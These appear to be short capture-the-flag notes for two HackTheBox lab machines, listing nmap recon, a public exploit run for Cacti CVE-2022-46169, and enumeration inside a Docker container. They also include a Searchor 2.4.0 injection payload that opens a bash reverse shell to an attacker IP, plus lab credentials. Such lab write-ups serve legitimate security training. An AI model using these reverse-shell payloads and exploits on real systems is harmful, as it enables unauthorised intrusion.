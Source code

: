 # Easy\_machines

onitorsTwo

1. Observe opened ports
   * `sudo nmap <ip>`
     * 22/tcp open ssh
     * 80/tcp open http
2. Observe website (http is open)
   * URL = 10.10.11.211
     * login screen
     * Cacti version 1.2.22
       * search for the vulns
         * CVE-2022-46169 (https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)
3. Exploit the CVE-2022-46169 vuln
   * download the exploit script
     * `git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22`
   * `nc -nlvp 443`
   * `python3 CVE-2022-46169.py -u http://<ip> --LHOST=<local_IP> --LPORT=443`
     * LHOST can be obtained with `ifconfig` -> tun0 IP
   * explore the reverse shelled connection
     * `whoami` `ls -l /`
     * `ls -la /`
       * we can see the file ".dockerenv" -> we are inside Docker container
     *   `cat entrypoint.sh`

         > mysql --host=db --user=root --password=root cacti -e "show tables"
     * `mysql --host=db --user=root --password=root cacti -e "show tables"`

## Busqueda

1. Reco `sudo nmap -sVC 10.10.11.208`
   * sudo nano /etc/hosts
     * 10.10.11.208 searcher.htb
2. Weaponisation App is running Searchor v2.4.0 which has vuln ![](https://hackmd.io/_uploads/S1qlltUqh.png)
3. Exploitation

* as a search value, insert RS inside it:
  * `nc -nlvp 4444`
  * `'),__import__('os').system('bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"')#`

4. User flag
   * cd
   * cat user.txt
5.  Root flag

    ![](https://hackmd.io/_uploads/HkC_MK8qn.png)

    * UN: cody
    * PW: jh1usoih2bkjaspwe92
